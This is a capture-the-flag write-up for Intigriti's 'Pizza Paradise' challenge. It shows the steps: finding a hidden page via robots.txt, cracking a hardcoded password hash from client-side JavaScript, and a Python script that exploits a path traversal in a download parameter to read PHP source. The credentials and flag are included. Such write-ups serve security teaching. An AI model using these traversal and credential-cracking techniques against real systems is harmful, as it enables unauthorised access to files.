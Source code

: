 # 1337Up Live CTF

## Pizza Paradise

> https://pizzaparadise.ctf.intigriti.io

Path traversal vulnerability.

## Approach

### Log in to the secret page

Find `/secret_172346606e1d24062e891d537e917a90.html` in `/robots.txt`.

In `auth.js`:

```js
const validUsername = "agent_1337";
const validPasswordHash =
  "91a915b6bdcfb47045859288a9e2bd651af246f07a083f11958550056bed8eac";
```

Use hashcat or https://crackstation.net to get the plaintext of password:

![pwd.jpg](pwd.jpg)

### Path traversal

After logging in, it is a page to download pictures, and there is a path traversal vulnerability. After some searching, the flag is in the PHP source code of the page.

```python
import requests

# login with agent_1337, intel420

path = "/assets/images/../../topsecret_a9aedc6c39f654e55275ad8e65e316b3.php"
url = f"https://pizzaparadise.ctf.intigriti.io/topsecret_a9aedc6c39f654e55275ad8e65e316b3.php?download={path}"
resp = requests.get(url)
print(resp.text)
```

## Flag

```
INTIGRITI{70p_53cr37_m15510n_c0mpl373}
```
